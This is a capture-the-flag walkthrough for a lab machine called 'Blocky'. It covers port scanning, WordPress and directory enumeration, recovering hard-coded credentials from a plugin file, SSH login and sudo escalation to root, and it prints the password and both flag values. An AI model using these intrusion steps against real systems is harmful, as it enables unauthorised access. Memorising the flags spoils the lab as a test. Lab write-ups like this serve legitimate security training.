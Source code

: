 ```yaml
---
cover: ../../../.gitbook/assets/Blocky.png
coverY: 249.05599999999998
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Blocky

```bash
nmap -sV -sC -p21,22,80,8192 blocky.htb
```

```
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d62b99b4d5e753ce2bfcb5d79d79fba2 (RSA)
|   256 5d7f389570c9beac67a01e86e7978403 (ECDSA)
|_  256 09d5c204951a90ef87562597df837067 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
curl -s -X GET http://blocky.htb | grep '<meta name="generator"'
```

The WordPress version is 4.8.

There is no plugin but there are themes :

```bash
curl -s -X GET http://blocky.htb | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
```

```
http://blocky.htb/wp-content/themes/twentyseventeen/style.css?ver=4.8
http://blocky.htb/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/html5.js?ver=3.7.3
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/skip-link-focus-fix.js?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/global.js?ver=1.0
http://blocky.htb/wp-content/themes/twentyseventeen/assets/js/jquery.scrollTo.js?ver=2.1.2
```

Find users :

```bash
wpscan --url http://blocky.htb --enumerate u
```

The user is `notch`.

I can enumerate the url http://blocky.htb.

```bash
ffuf -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://blocky.htb/FUZZ -fs 52227
```

The results are `wiki`, `wp-content`, `plugins`, `wp-includes`, `javascript`, `wp-admin`, `phpmyadmin`. I go to http://block.htb/plugins and download the files. I extract them and go to `./com/myfirstplugin/BlockyCode.class` and there are some credentials `root:8YsqfCTnvxAUeduzjNSXe22`.

I try these credentials on SSH

```bash
ssh notch@blocky.htb		# notch:8YsqfCTnvxAUeduzjNSXe22
```

I get the shell, now I can check sudo permissions :

```bash
cat /home/notch/user.txt  # c1a886acf96ca6b5590840ba2e948997
sudo -l
```

I can do everything as sudo thus I execute this command :

```bash
sudo -su
```

And I am root now.

```bash
cat /root/root.txt  # 66a208ec92cfb09e9a5108fd0e7f8a01
```
